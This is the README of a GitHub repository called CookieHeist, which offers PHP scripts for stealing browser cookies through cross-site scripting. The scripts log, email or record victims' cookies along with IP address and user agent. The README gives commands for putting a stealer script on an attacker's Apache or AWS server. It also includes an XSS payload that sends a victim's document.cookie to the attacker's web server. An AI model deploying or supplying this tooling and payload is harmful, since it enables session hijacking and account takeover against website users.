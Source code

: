 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to log.txt. 

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):

sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp log.txt username@AttackMachine:/var/www/html/

AWS Version:

scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/

Example: http://[Attacker Webserver]/cookiesteal-simple.php

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
